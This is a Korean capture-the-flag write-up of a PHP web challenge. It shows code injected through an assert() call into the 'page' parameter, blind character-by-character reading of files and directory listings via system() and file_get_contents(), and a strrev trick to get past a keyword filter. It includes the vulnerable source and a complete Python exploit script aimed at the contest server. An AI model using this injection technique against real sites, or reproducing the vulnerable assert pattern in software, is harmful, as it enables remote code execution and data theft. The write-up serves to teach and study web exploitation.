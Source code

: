 # 2017 Inc0gnito - [WEB] Sophie

## Key words

- php wrapper filtering
- error based blind injection
- key word filtering

## Solution

페이지에 접속하면 `Home`, `Board`, `Contact`가 있지만 문제 풀이와는 별로 상관이 없습니다.

한 가지 눈에 띄는 것은 페이지에 접속하면 `GET`방식으로 `page` 파라미터를 받아 처리하기 때문에 `php://`를 이용하여 페이지를 로드 시켜 `php`코드를 확인해보았습니다.

그런데 다음과 같은 에러가 발생하면서 정상적으로 되질 않습니다.

```
 Warning: assert(): Assertion &quot;strpos('./includes/php://.php', 'php://') === false&quot; failed in /var/www/html/index.php on line 33
```

`php://`를 구하여 `assert`를 하는데, 중간에 제 입력이 들어 가기 때문에 이 부분을 이용하여 `error based injection`을 시도해봅니다.

먼저 우리가 들어 가는 부분은 다음과 같습니다.

```
strpos('./includes/{our input}.php', 'php://') === false
```

`{our input}` 부분에 코드를 인젝션 하여 우리가 원하는 결과를 얻어 보도록 합니다. 먼저 위 비교 문에서 `false`가 발생하면 `assert`가 발생하기 때문에 두 파트로 나눠서 `{TRUE Condition} & {Blind Condition}`으로 생각을 하면 앞 쪽에는 항상 참이고 뒤 쪽은 우리의 결과의 따라서 참과 거짓으로 나뉘기 때문에 `blind`할 수 있습니다.

이를 위해 항상 참이 되는 구문과 조건문을 다음과 같이 만들 수 있습니다. 

```
[1] strpos('./includes/', '1') === false && 
[2] {blind condition} &&
[3] strpos('1
```

`[1]` 은 처음에 항상 참이 되도록 설정하기 위해 넣은 부분이고 `[2]`가 우리의 인젝션이 들어 가는 부분이며 `[3]`은 나머지 코드가 정상적으로 실행되기 위해 넣은 코드 입니다.

먼저 폴더를 검색해보도록 합니다.

`scandir`이 막혀있어서 `system` 명령을 이용하여 폴더를 조사하엿습니다.

```
def get_dir_length(path, n=0):
    for i in range(2048):
        if i < n:
            continue
        print "Len : %d" % i
        s = 'strlen(system("ls -al %s | paste -sd \',\'")) == %d' % (path, i)
        if check(base % s):
            print "Found length %d" % i
            return i

def get_dir_info(path, n):
    length = get_dir_length(path, n)
    s = ""
    while len(s) < length:
        print s
        for c in string.printable:
            tmp = s + c
            payload = 'substr(system("ls -a1 %s | paste -sd \',\'"), 0, %d) == base64_decode("%s")' % (
            path, len(tmp), base64.b64encode(tmp))

            if check(base % payload):
                s += c
```

디렉토리를 조사 해보니 다음과 같은 구주로 되어 있었습니다.

```
.
..
header.php
includes/
  .
  ..
  board.php
  contact.php
  flag.php
  home.php
  index.php
index.php
nav.css
style.css
```

먼저 `flag.php` 를 아무리 넣어봐도 나오질 않아 먼저 `index.php`를 구해보았더니 다음과 같은 `php` 내용이 있었습니다.

```
<?php
    //FLAG is at ./includes/flag.php
    include_once("header.php");
    if(isset($_GET['page'])){
        $page = $_GET['page'];
    }
    else{
        $page = "home";
    }
    if(strpos($page, "..")){
        $page = "home";
    }
    if(strpos($page, "flag")){
        $page = "home";
    }
    $file = "./includes/" . $page. ".php";
    error_reporting(E_ALL);
    ini_set('display_errors', 1);
    ini_set('display_startup_errors', 1);
    assert_options(ASSERT_ACTIVE, true);
    assert_options(ASSERT_WARNING, true);
    assert("strpos('$file', 'php://') === false") or die("No php wrapper!");
    @require_once($file);
?>
```

`page` 파라미터에 `flag`가 오게 되면 `home`으로 변경합니다. 따라서, `php.galf` 로 전송하고, 우리의 php 코드에서 `strrev`를 하여 반대로 해주게 되면 `flag.php`를 읽게 될 수 있었고 정상적으로 플래그를 읽을 수 있었습니다.

## Solution Code 

```python
import requests
import string
import base64

url = "http://prob.nagi.moe:9091/index.php"

# strpos('./includes/[php://].php', 'php://') === false
base = "', '1') === false && %s && strpos('1"

def check(payload):
    r = requests.get(url, params={'page':payload})
    return "No php wrapper" not in r.text

def get_len(path, n=0):
    for i in range(2048):
        if i < n:
            continue

        print "Length upto %d" % i
        s = 'strlen(file_get_contents(strrev("%s"))) == %d' % (path, i)
        if check(base % s):
            print "Found Length %d" % i
            return i

def read_file_contents_2(path, n=0, start_at=0):
    if n!= 0 :
        length = n
    else:
        length = get_len(path, n)
    s = ""
    while len(s) < length:
        print len(s), s
        try:
            for c in string.printable:
                tmp = s + c
                payload = 'substr(file_get_contents(strrev("%s")), 0, %d) == base64_decode("%s")' % (
                path, len(tmp), base64.b64encode(tmp))

                if check(base % payload):
                    s += c
        except Exception as e:
            continue

def get_dir_info(path, n):
    length = get_dir_length(path, n)
    s = ""
    while len(s) < length:
        print s
        for c in string.printable:
            tmp = s + c
            payload = 'substr(system("ls -a1 %s | paste -sd \',\'"), 0, %d) == base64_decode("%s")' % (
            path, len(tmp), base64.b64encode(tmp))

            if check(base % payload):
                s += c

def get_dir_length(path, n=0):
    for i in range(2048):
        if i < n:
            continue
        print "Len : %d" % i
        s = 'strlen(system("ls -al %s | paste -sd \',\'")) == %d' % (path, i)
        if check(base % s):
            print "Found length %d" % i
            return i

print read_file_contents_2("./index.php"[::-1], 1524, 0)
```
